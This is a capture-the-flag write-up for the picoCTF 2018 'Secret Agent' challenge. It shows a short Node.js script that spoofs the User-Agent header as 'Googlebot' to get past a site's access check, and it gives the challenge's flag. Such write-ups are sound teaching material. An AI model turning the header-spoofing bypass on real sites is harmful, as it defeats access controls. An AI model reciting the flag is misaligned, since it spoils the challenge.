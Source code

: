 # Secret Agent

**Points:** 250

**Description**
> Here's a little website that hasn't fully been finished. But I heard google gets all your info anyway. `http://2018shell1.picoctf.com:46162` ([link](http://2018shell1.picoctf.com:46162))

**Hints**
> How can your browser pretend to be something else?

## Solution

When we visit the webpage and click the "Flag" button, we get the error that we are not google, along with our user agent. If we switch our user agent to `Googlebot` and request `/flag`, we will be able to see that it returns the flag.

```js
const fetch = require("node-fetch");
fetch("http://2018shell1.picoctf.com:46162/flag", {
    headers: {
        "User-Agent": "Googlebot"
    }
}).then(r => r.text()).then(text => {
    console.log(text.match(/picoCTF{(.*)}/)[0]);
});
```

Our flag is `picoCTF{s3cr3t_ag3nt_m4n_ac87e6a7}`